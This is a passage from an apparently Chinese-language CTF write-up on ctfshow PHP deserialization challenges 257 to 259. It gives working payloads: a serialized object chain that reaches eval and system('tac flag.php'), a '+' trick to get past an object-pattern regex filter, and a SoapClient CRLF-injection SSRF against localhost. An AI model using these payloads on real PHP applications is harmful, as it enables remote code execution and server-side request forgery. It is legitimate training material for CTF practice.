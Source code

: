 ```php
}
```
看到eval，所以肯定要执行backdoor中的方法

因此我们只需要在执行__construct的时候`初始化backDoor类`，方便我们进行命令执行的利用，之后反序列化结束后，会执行__destruct()

此时eval($this->code);等价于`eval(system('cat flag.php');)`

即__construct启用backdoor类，__destruct()启用backdoor中的方法

Payload：
```php
<?php
class ctfShowUser{
    public $class = 'backDoor';
	public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code='system("tac flag.php");';
    
}
echo urlencode(serialize(new ctfShowUser));
?>
```

---
# 258(加号绕过正则： /[oc]:\d+:/i)

```php
if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);

```

增加正则：o:数字:   //在数字前加 ‘+’

Payload:
```
O:+11:"ctfShowUser":1:{s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:23:"system("tac flag.php");";}}
```

---
# 259(SoapClient与CRLF组合拳)
[y4tacker](https://y4tacker.blog.csdn.net/article/details/110521104)

payload:

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^X-Forwarded-For:127.0.0.1,127.0.0.1^^Content-Type: application/x-www-form-urlencoded'.'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'=> "ssrf"));
$a = serialize($b);
$a = str_replace('^^',"\r\n",$a);
echo urlencode($a);
?>
```

---